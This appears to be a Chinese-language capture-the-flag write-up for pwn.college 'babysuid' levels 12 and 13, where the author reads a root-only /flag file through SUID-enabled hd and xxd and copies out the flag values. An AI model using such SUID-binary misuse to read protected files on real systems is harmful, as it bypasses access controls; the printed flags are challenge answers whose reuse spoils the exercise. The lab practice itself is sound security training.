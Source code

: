 ```
Welcome to ./babysuid_level12!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/hd.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level12) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/hd!
```
奇怪的`hd`工具，十六进制的。
```
hacker@program-misuse-level-12:~$ hd /flag
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 6f 47 7a 69  |pwn.college{oGzi|
00000010  37 55 30 32 58 54 6c 5f  64 73 6e 50 43 77 73 42  |7U02XTl_dsnPCwsB|
00000020  52 38 6d 59 54 77 6d 2e  30 46 4e 31 45 44 4c 32  |R8mYTwm.0FN1EDL2|
00000030  51 6a 4d 79 4d 7a 57 7d  0a                       |QjMyMzW}.|
00000039
hacker@program-misuse-level-12:~$ man hd
```
这里已经可以直接复制了，但是希望有更简便的形势，去看了文档，但是没太研究明白，瞎整了一个输出
```
hacker@program-misuse-level-12:~$ hd -f /flag
hd: "pwn.college{oGzi7U02XTl_dsnPCwsBR8mYTwm.0FN1EDL2QjMyMzW}": bad format
hacker@program-misuse-level-12:~$
```

## level13 Requires you to understand their output to derive the flag from it!

```
Welcome to ./babysuid_level13!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/xxd.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level13) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/xxd!
```
`xxd`，是个二进制的工具。这个我会
```
hacker@program-misuse-level-13:~$ xxd /flag
00000000: 7077 6e2e 636f 6c6c 6567 657b 4d56 2d59  pwn.college{MV-Y
00000010: 6e5f 3465 4777 6c63 6f49 5438 4a63 574a  n_4eGwlcoIT8JcWJ
00000020: 6934 7764 2d53 692e 3056 4e31 4544 4c32  i4wd-Si.0VN1EDL2
00000030: 516a 4d79 4d7a 577d 0a                   QjMyMzW}.
```
然后手动复制...
```
pwn.college{MV-Yn_4eGwlcoIT8JcWJi4wd-Si.0VN1EDL2QjMyMzW}
```
